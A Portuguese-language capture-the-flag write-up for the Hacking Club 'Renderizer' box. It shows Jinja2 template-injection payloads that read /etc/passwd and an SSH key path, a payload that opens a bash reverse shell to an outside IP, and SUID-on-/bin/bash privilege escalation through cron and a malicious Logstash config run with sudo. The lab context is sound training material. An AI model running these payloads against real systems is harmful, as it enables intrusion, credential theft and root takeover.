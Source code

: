 ```yaml
---
title: 'Renderizer Writeup'
date: '2024-07-13'
tags: ['SSTI', 'RCE', 'Linux']
draft: false
summary: 'Writeup do CTF Renderizer da Hacking Club.'
images: ['/static/images/renderizer-writeup-images/1.png']
authors: ['default']
---
```


![Writeup-Renderizer 1](/static/images/renderizer-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Renderizer

### IP: 172.16.14.128

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f7:37:6a:01:16:84:08:ea:92:19:b0:b3:ba:22:71:34 (ECDSA)
|_  256 59:00:f0:d6:c4:d4:f3:91:85:8f:1a:d2:1d:29:87:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Renderizer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Somente as portas 22(SSH) e 80 (HTTP) estão abertas.

---

![Writeup-Renderizer 2](/static/images/renderizer-writeup-images/2.png)

`sudo vim /etc/hosts`
![Writeup-Renderizer 3](/static/images/renderizer-writeup-images/3.png)

### [http://renderizer.hc](http://renderizer.hc)

![Writeup-Renderizer 4](/static/images/renderizer-writeup-images/4.png)
![Writeup-Renderizer 5](/static/images/renderizer-writeup-images/5.png)

Ele diz que é um jinja2 , a gente pode deduzir que se trata de um SSTI (Server-Side Template Injection), pra testar eu mandei um `{{7*7}}.`

![Writeup-Renderizer 6](/static/images/renderizer-writeup-images/6.png)

Depois de fazer algumas pesquisas , eu achei uma payload pra leitura de arquivos que funcionou.

`{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}`

![Writeup-Renderizer 7](/static/images/renderizer-writeup-images/7.png)

john:x:1001:1001::/home/john:/bin/bash e ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash são os usuários.

Tentei utilizar o mesmo pra pegar a chave ssh , mas não deu:

`{{ get_flashed_messages.globals.builtins.open("/home/john/.ssh/id_rsa").read() }}`

![Writeup-Renderizer 8](/static/images/renderizer-writeup-images/8.png)

`{{ "teste".class.mro[1].subclasses() }}` tentei usar essa payload pra verificar as subclasses presentes , mas tava dando um erro acredito que o servidor tenha algum tipo de proteção, então eu fui atrás de outro jeito de verificar.

E consegui assim:

```
{% for subclass in ''.__class__.__mro__[1].__subclasses__() %}
    <h2>{{ subclass.__name__ }}</h2>
    <ul>
    {% for attr in subclass.__dict__.keys() %}
        <li>{{ attr }}</li>
    {% endfor %}
    </ul>
{% endfor %}
```

![Writeup-Renderizer 9](/static/images/renderizer-writeup-images/9.png)

Agora é achar a posição do array do Popen pra ganhar um RCE.

## Initial Access

Payload do mano vert16x pra achar a posição do array do Popen automaticamente nos possibilitando um RCE.

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("/bin/bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'").read().zfill(417)}}{%endif%}{% endfor %}
```

![Writeup-Renderizer 10](/static/images/renderizer-writeup-images/10.png)

## Privillege Escalation

`cat /etc/crontab`

![Writeup-Renderizer 11](/static/images/renderizer-writeup-images/11.png)
Eu pensei incialmente em simplesmente alterar a pasta webapp com os comandos abaixo mas não funcionou, por alguma razão a cron não executava.

```
rm -rf webapp
echo '#!/bin/bash' > /home/john/webapp
echo 'chmod u+s /bin/bash' >> /home/john/webapp
chmod +x webapp
```

Então eu fui ver a pasta que estava sendo feito o backup `/var/backups`

![Writeup-Renderizer 12](/static/images/renderizer-writeup-images/12.png)

Se eu tentar dar o `unzip webapp-03-01-2024.zip` ele da permission denied

![Writeup-Renderizer 13](/static/images/renderizer-writeup-images/13.png)

Então a gente precisa copiar esse `webapp-03-01-2024.zip` pra pasta tmp
`cp webapp-03-01-2024.zip /tmp`

Na pasta tmp basta a gente unzipar o arquivo:

`unzip webapp-03-01-2024.zip`

![Writeup-Renderizer 14](/static/images/renderizer-writeup-images/14.png)

Depois de unzipar a pasta webapp tem uma variavel de ambiente `.env` que por sinal é a mesma senha do usuario que estamos logado `john` .

![Writeup-Renderizer 15](/static/images/renderizer-writeup-images/15.png)

`john:bwsTuCtSYue7G4`

`sudo -l`
![Writeup-Renderizer 16](/static/images/renderizer-writeup-images/16.png)

Pra explorar o logstash a gente precisa criar um arquivo `.yaml` malicioso.

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash)

![Writeup-Renderizer 17](/static/images/renderizer-writeup-images/17.png)

```
input {
  exec {
    command => "chmod u+s /bin/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}

```

depois é so rodar o comando , `sudo /root/logstash/bin/logstash -f /tmp/webapp/teste.yaml`

Demora alguns segundos pra rodar:

![Writeup-Renderizer 18](/static/images/renderizer-writeup-images/18.png)

E o /bin/bash vai virar SUID após a execução do logstash.

![Writeup-Renderizer 19](/static/images/renderizer-writeup-images/19.png)
![Writeup-Renderizer 20](/static/images/renderizer-writeup-images/20.png)

## Proof

![Writeup-Renderizer 21](/static/images/renderizer-writeup-images/21.png)
